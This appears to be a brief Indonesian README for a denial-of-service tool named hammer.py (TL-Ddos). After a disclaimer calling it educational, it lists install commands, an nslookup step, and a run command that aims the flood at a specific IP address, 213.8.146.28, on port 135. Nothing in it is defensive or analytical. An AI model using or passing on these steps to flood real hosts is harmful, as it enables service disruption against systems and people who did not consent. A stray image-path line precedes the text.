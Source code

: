 TOOLS INI TERBUKA HANYA SEBAGAI EDUKASI, JANGAN DISALAH GUNAKAN

apt update && apt upgrade
apt install python
apt install git

apt install dnsutils
nslookup example.com

cd TL-Ddos
python hammer.py 

Run :
 python hammer.py -s 213.8.146.28 -t 135
